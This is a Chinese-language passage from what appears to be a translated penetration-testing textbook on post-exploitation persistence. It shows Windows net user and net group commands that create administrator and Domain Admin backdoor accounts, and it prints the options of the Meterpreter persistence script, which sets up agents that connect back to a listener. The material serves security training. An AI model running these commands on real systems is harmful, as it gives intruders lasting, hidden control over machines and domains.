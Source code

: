 在 Windows 系统上，使用 `net user` *`username`* *`password`* `/add` 来添加一个新用户，如此处所示。

```
C:\Documents and Settings\georgia\Desktop> **net user james password /add**
net user james password /add
The command completed successfully.
```

我们还应该使用命令 `net localgroup` *`group username`* `/add` 将新用户添加到相关的组中。例如，如果我们想通过远程桌面登录，应该将用户添加到远程桌面用户组。管理员组也是一个很好的选择，如此处所示。

```
C:\Documents and Settings\georgia\Desktop> **net localgroup Administrators james /add**
net localgroup Administrators james /add
The command completed successfully.
```

如果你的客户有 Windows 域，可以通过在命令末尾加上 `/domain` 来将用户添加到域中，并将其添加到域组中（前提是你有足够的权限）。例如，如果你能够窃取一个域管理员的令牌，可以使用以下命令添加一个域管理员账户，从而获得整个域的完全控制。

```
C:\Documents and Settings\georgia\Desktop> **net user georgia2 password /add /domain**
C:\Documents and Settings\georgia\Desktop> **net group "Domain Admins" georgia2 /add /domain**
```

在 Linux 目标系统上，我们可以使用 `adduser` 来添加一个用户账户。理想情况下，我们还应该将新用户添加到 sudoers 组中，以便获得 root 权限。

### Metasploit 持久化

Meterpreter 脚本 *persistence* 会自动创建一个 Windows 后门，使其根据我们创建时使用的选项，在启动、登录等时自动连接回 Metasploit 监听器。*persistence* 脚本的选项如 示例 13-33 所示。

示例 13-33. Meterpreter 持久化脚本

```
meterpreter > **run persistence -h**
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching multi/handler to connect to the agent
    -L <opt>  Location in target host where to write payload to, if none %TEMP% will be used.
    -P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T <opt>  Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i <opt>  The interval in seconds between each connection attempt
    -p <opt>  The port on the remote host where Metasploit is listening
    -r <opt>  The IP of the system running Metasploit listening for the connect back
```

如你所见，我们有很多自定义选项可以配置我们的持久化有效载荷。我们可以设置持久化代理在启动时或用户登录时启动。我们可以设置尝试连接处理程序的间隔时间。我们还可以更改代理在目标系统上的写入位置。我们还可以指定远程主机和端口，让代理连接回去。我们甚至可以让 Metasploit 自动设置一个处理程序来接收传入连接。在设置持久化的过程中，Metasploit 必须将持久化代理写入磁盘，因此 Meterpreter 此时不再完全驻留在内存中。当持久化代理在启动时运行（-`X`）时，一个 Visual Basic 脚本会被上传到 *%TEMP%* 文件夹，并且在注册表中添加一个程序启动项。当持久化代理在登录时运行（`-U`）时，过程类似，但注册表项被设置为在登录时运行。当持久化代理以服务方式运行（`-S`）时，会创建一个 Windows 系统服务，从 *%TEMP%* 调用 Visual Basic 脚本。
